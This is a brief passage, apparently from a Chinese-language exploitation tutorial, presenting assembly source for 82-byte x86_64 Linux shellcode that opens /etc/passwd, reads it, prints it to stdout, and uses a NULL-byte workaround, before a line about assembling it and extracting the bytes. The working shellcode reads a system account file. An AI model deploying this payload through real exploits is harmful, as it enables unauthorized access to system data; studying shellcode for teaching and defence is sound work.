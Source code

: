 在这个例子中我准备用个定制的 shellcode 去读/etc/passwd 的内容。

```
BITS 64 
; Author Mr.Un1k0d3r - RingZer0 Team 
; Read /etc/passwd Linux x86_64 Shellcode 
; Shellcode size 82 bytes 
global _start 
section .text 
_start: 
    jmp _push_filename 

_readfile: 
    ; syscall open file 
    pop rdi   ; pop path value 
    ; NULL byte fix 
    xor byte [rdi + 11], 0x41 

    xor rax, rax 
    add al, 2 
    xor rsi, rsi  ; set O_RDONLY flag 
    syscall 

    ; syscall read file 
    sub sp, 0xfff 
    lea rsi, [rsp] 
    mov rdi, rax 
    xor rdx, rdx 
    mov dx, 0xfff   ; size to read 
    xor rax, rax 
    syscall 

    ; syscall write to stdout 
    xor rdi, rdi 
    add dil, 1 ; set stdout fd = 1 
    mov rdx, rax 
    xor rax, rax 
    add al, 1 
    syscall 

    ; syscall exit 
    xor rax, rax 
    add al, 60 
    syscall 

_push_filename: 
    call _readfile 
    path: db "/etc/passwdA" 

```

接下来汇编这个文件然后提取 shellcode。
